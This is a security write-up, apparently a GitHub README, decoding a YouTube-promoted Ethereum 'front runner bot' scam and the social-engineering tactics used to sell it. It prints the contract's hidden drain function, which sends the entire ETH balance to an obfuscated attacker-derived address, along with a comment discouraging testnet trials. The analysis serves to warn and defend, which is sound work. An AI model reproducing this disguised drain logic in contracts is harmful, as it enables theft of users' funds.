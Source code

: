 ## Malicious Solidity Decoded
I was recently informed of a "front runner scam" involving a YouTube video promoting an Ethereum trading bot that claimed to utilize MEV (Maximal Extractible Value) techniques. This incident highlights the necessity for thorough examination and auditing of smart contracts, especially those advertised on platforms such as YouTube.

Marketed as utilizing advanced strategies, including transaction reordering by submitting transactions with higher gas fees for prioritized processing, and leveraging ChatGPT API keys to identify profitable transactions within the Ethereum mempool, the bot was ostensibly designed to maximize trading efficiency. However, its actual operation diverted users' Ethereum deposits directly to a scammer’s address through complex and hidden logic. 

Intrigued by its mechanics, I embarked on a detailed exploration to unravel how this particular front runner scam bot operated, as outlined in the subsequent sections where I decode its workings.

#### Scam video on YouTube (WARNING)
[How to make 2,700 with ChatGPT Slippage Strategy](https://m.youtube.com/watch?v=IkOUdbPeIxo&ab_channel=Cytra%7Cweb-3)

- Video is prefaced by a statement like "There are many scams out there in the crypto space". 

Beginning a video with a warning about the prevalence of scams in the cryptocurrency space is a classic social engineering tactic designed to lower the audience's guard. This approach plays on the psychological principle of inoculation, where mentioning a potential threat or concern upfront can create a sense of trust and credibility. 

#### Scam solidity code (WARNING)
[Trading Bot Code](https://binarypastes.com/raw/CJRejc)

- The provided smartcontract code is not peer-reviewd on GitHub. 

Providing smart contract code on platforms like Ghostbin, Pastebin and binarypastes.com, rather than on peer-reviewed repositories such as GitHub or GitLab, raises immediate red flags regarding the legitimacy of the code.

- Initial comment encourages user to not try first on testnet. 

```
// Testnet transactions will fail because they have no value in them
```

Using a testnet like Goerli allows users to safely observe and interact with a contract's functionality on-chain without risking real assets, providing a valuable opportunity for learning and verification. Contrary to claims that testnet transactions fail due to lack of value, they are crucial for understanding contract behavior in a risk-free environment.


#### Decoding the attack
The malicious activity in the contract is primarily executed through the StartNative function, which indirectly triggers the startArbitrageNative function. The critical lines that facilitate the theft of ETH are within the startArbitrageNative function:

```
function startArbitrageNative() internal  {
    address tradeRouter = getDexRouter(DexRouter, factory);        
    address dataProvider = getDexRouter(apiKey, DexRouter);         
    IERC20(dataProvider).createStart(msg.sender, tradeRouter, address(0), address(this).balance);
    payable(tradeRouter).transfer(address(this).balance);
}
```

Here's basically what happens:

1. Calculating Addresses: The function calculates two addresses (tradeRouter and dataProvider) using the getDexRouter function with inputs from hardcoded bytes32 values (DexRouter, factory, and apiKey). These addresses are derived from obfuscated values, making it difficult to understand their true nature without knowing the exact mechanism of getDexRouter.

2. Misleading Function Call: It then calls the createStart function on the dataProvider interface. This interface and function are not standard in ERC20 or Uniswap V2 protocols, making it suspicious. The purpose of this call, as described, is unclear and likely non-existent, serving only as a distraction.

3. Transferring ETH: Finally, the function transfers the contract's entire ETH balance to the tradeRouter address with payable(tradeRouter).transfer(address(this).balance);. This is the actual line where the theft occurs. Instead of performing any legitimate trading operation, it simply sends all the ETH stored in the contract to an address that was calculated using obfuscated logic.

In summary, the contract pretends to initiate an arbitrage trading operation through the StartNative function but ultimately redirects the user's deposited ETH to a concealed address controlled by the attacker. This is achieved by a combination of obfuscated address calculations and a deceptive transfer of funds, with the real intent hidden behind complex and seemingly legitimate trading functions.

#### Read more about front runner scams on [medium](https://medium.com/remix-ide/remix-in-youtube-crypto-scams-71c338da32d). 

> "Over the last year, but currently at critical mass, thousands of YouTube videos have been offering viewers instructions on how to set up a “front runner bot” to make money by sniping liquidity pools of BNB in PancakeSwap. It’s a scam. Don’t fall for it."